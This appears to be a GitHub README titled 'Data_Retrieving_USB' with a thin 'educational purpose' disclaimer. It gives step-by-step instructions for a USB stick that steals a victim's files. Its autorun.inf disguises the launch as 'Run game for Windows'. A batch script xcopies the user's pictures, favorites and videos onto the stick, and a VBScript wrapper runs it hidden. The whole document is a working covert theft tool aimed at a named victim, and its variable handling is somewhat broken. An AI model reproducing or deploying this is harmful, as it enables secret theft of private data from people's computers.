 # Data_Retrieving_USB

--------------------------------------"DISCLAIMER:-ITS JUST FOR EDUCATIONAL PURPOSE"-------------------------------------------




Its a code to make pendrive copy all data of the victim's pc and paste it to the USB.




--------------------step 1------------- 

insert you pendive and open notepad



---------------------Step 2--------------------------

[autorun] 
icon=drive.ico
open=launch.bat
action=Click ok to Run game for Windows
shell\open\command=launch.bat

When finished Save As.. and name file "autorun" change
the extention to .inf

----------------------Step 3-----------------------

@echo off
:: variables
/min
SET odrive=%odrive:~0,2%
set backupcmd=xcopy /s /c /d /e /h /i /r /y
echo off
%backupcmd% "%USERPROFILE%\pictures" "%drive%\all\My pics"
%backupcmd% "%USERPROFILE%\Favorites" "%drive%\all\Favorites"
%backupcmd% "%USERPROFILE%\videos" "%drive%\all\vids"
@echo off 
cls

Save as.. and name "file" change extention to .bat

------------Step 4-----------------

CreateObject("Wscript.Shell").Run """" & 
WScript.Arguments(0) & """", 0, False

save as.. and name "invisible" change the extension to .vbs

Step 5:

wscript.exe \invisible.vbs file.bat 

Save as.. "launch" change extension to .bat

-------------------step 5------------------

Also create a folder name "ALL" in the pendrive
________________________________________________________________


At last just make the "Launch.bat" auto run on plugging the USb by "AUTORUN SOFTWARE CREATOR" software







